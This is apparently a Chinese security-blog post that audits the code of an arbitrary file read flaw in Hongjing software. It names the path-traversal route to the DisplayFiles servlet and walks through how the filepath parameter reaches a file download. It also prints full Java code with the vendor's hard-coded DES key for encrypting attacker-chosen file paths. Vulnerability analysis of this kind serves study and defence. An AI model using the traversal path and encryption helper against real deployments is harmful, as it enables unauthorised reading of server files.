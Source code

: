 #  宏景任意文件读取漏洞分析   
原创 Ambition  进击安全   2024-04-18 20:28  
  
**免责申明**  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
  
  
**0x00 前言**  
  
    好久没有给师傅们进行更新文章啦，不好意思啦，前段时间有点忙，今天给大家分析一个漏洞为宏景的任意文件读取漏洞。  
  
**0x01 漏洞分析**  
  
漏洞  
路  
径：  
/templates/attestation/../../servlet/DisplayFiles  
  
知道路径之后我们直接进行定位到相关的web.xml文件当中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4E4ze7eOFehHwxVQAonTTicN9N7ibTBXZ8vyY3yWeffpxrn0I15fwviaQQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4lWCwW1wz4SGn9Yj1rnic8ClOZw0rmzYVia8MeqjiaFm1YgOTia1Id3VMvQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到当我们访问相关的路径为  
/servlet/DisplayFiles的时候会触发class文件  
```
```  
  
我们进行跟入分析。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4SHg38ic8ZR307rffgzz3eh8nRjwFJC4LOFyo4icmAIk7kDmE7ib228cYw/640?wx_fmt=png&from=appmsg "")  
  
查看代码我们可以看出来存在一个接受参数为filepath参数，并且传递到了方法decode方法当中进行了解密，解密我们稍后说，除了解密还进行传递到了方法  
keyWord_reback当中，跟  
入  
方法进行查看。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib40IbqbV9Nn4HNjb6bicDOSIibdWekqZ4SOztVK7mMfERg86Gib16aqf6nA/640?wx_fmt=png&from=appmsg "")  
  
在这个方法当中只是单纯的进行将中文字符替换为了英文字符，我们继续向下走。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4mItSSaiaxmRhnrMsAJ4qvSyoWeh9DtsumNUJHFjF2l5H7e7D3Ygia00g/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到将我们传入的参数传递到了file类当中，并且进行传递到了方法  
getMimeType，我们跟  
入  
这个方法看看是干什么的。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4cXO1mAXQbUHPfxoMr9h4OALkP1hzfwBdnvgpDOnlGKRNZWpKhS30XA/640?wx_fmt=png&from=appmsg "")  
  
在这个方法当中通过获取到后缀名，来指定一个响应类型，并且在没有找到合适的响应类型的时候会给到一个响应如下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4OcEmuic4MHqdI4uYMdzvvbgZMSibDibgmEE6iarqn0o41uRCsP8LyibqMRA/640?wx_fmt=png&from=appmsg "")  
  
其实对于我们代码审计来说也没什么影响，我们就继续向下走，查看下面的代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4m6tZ7eF4eemQ3rjPqia2B9yf6RfshMGeibUsmFDyFuHJ7BDZRkWVdSmg/640?wx_fmt=png&from=appmsg "")  
  
又将我们传递的参数给到了方法sendTempFile方法当中，我们跟入相关方法。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib44ghpugaeiblW6HpQhgYPFHB68U5fGicuMAWHz5NxdecQ6j7yw90icn2Dg/640?wx_fmt=png&from=appmsg "")  
  
这里对我们传入的参数为var1先进行调用了FileInputStream后又传递给了字节缓冲流，并且在最后进行了文件的读取，并且下载。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4QhseqAe6ClvUIFHzU5klojmeG1yFKRibdkwtAYgrIZAELrAVHN0icdHQ/640?wx_fmt=png&from=appmsg "")  
  
至此造成了任意文件的读取，但是有一个地方我们忽略了，即为在我们传入相关的参数的时候进行了解密，那么我们要进行扣出来相关的加密代码，保证程序在接收到我们的参数的时候解密成功。  
  
相关加密代码如下。  
```
package com.example.springboot;

import sun.misc.BASE64Encoder;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;
import javax.crypto.spec.IvParameterSpec;

public class hongjing_jiami {
    public static String encrypt(String var0, byte[] var1) {
        String var2 = "";

        try {
            byte[] var3 = new byte[]{1, 2, 3, 4, 5, 6, 7, 8};
            DESKeySpec var4 = new DESKeySpec(var0.getBytes());
            SecretKeyFactory var5 = SecretKeyFactory.getInstance("DES");
            SecretKey var6 = var5.generateSecret(var4);
            Cipher var7 = Cipher.getInstance("DES/CBC/PKCS5Padding");
            IvParameterSpec var8 = new IvParameterSpec(var3);
            var7.init(1, var6, var8);
            byte[] var10 = var7.doFinal(var1);
            BASE64Encoder var11 = new BASE64Encoder();
            var2 = new String(var11.encode(var10));
        } catch (Exception var12) {
            var12.printStackTrace();
        }

        return var2;
    }
    public static String encrypt(String var0, String var1) {
        return encrypt(var0, var1.getBytes());
    }
    public static String encrypt_1(String var0) {
        return encrypt("ilovethisgame", var0);
    }
    public static String encrypt(String var0) {
        if (null == var0) {
            return "";
        } else {
            String var1 = encrypt_1(var0);
            var1 = var1.replaceAll("%", "@2HJ5@");
            var1 = var1.replaceAll("\\+", "@2HJB@");
            var1 = var1.replaceAll(" ", "@2HJ0@");
            var1 = var1.replaceAll("\\/", "@2HJF@");
            var1 = var1.replaceAll("\\?", "@3HJF@");
            var1 = var1.replaceAll("#", "@2HJ3@");
            var1 = var1.replaceAll("&", "@2HJ6@");
            var1 = var1.replaceAll("=", "@3HJD@");
            var1 = var1.replaceAll("\r\n", "").replaceAll("\n", "").replaceAll("\r", "");
            var1 = var1.replaceAll("@", "PAATTP");
            return var1;
        }
    }

    public static void main(String[] args) {
        hongjing_jiami hongjing_jiami = new hongjing_jiami();
        System.out.println(encrypt("加密数据"));
    }
}
```  
  
这里由于扣取加密代码有点繁琐，感兴趣师傅可以私聊我。  
  
最终实现效果。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4sooMtOa8aJiauO4qcn4liaCD8cGyDXt6QWpwZDO0C9YPicCrsE3Cko10w/640?wx_fmt=png&from=appmsg "")  
  
**0x02 漏洞验证******  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVKCqbblzVjQ3fBESPNuJib4Ia9UyPibazIchmHdqUvMnW2nBj1qGgDIlCwTOic5mYJKGPLlpQ2dq6AA/640?wx_fmt=png&from=appmsg "")  
  
**0x03 完结**  
  
**作者联系方式**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
****  
**关于内部纷传圈子，可以加添加作者咨询**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhXzU9v1cBhCFdyzssSBY6yjVSleeyQ95UwO25q97aar2cjDCB8ELfePibibxaDdHCcWsouEjySKjCxg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhXzU9v1cBhCFdyzssSBY6yjp6sZfDvsAC00IJ3iaZtaD6NK8WVQUBB6BSuM2nmAj5ON7z00wficB9BA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhXzU9v1cBhCFdyzssSBY6yjy1u9qf1szYAgIHYebBoGmXWZicuzJFDdDia764g5cDZr9XgHjTTIlU2Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXzU9v1cBhCFdyzssSBY6yjgibcSgY0Tg6AUicDy1I8rOYWTL3lxThzQ637PzSqJxCmuQ9eKlm7QImw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  

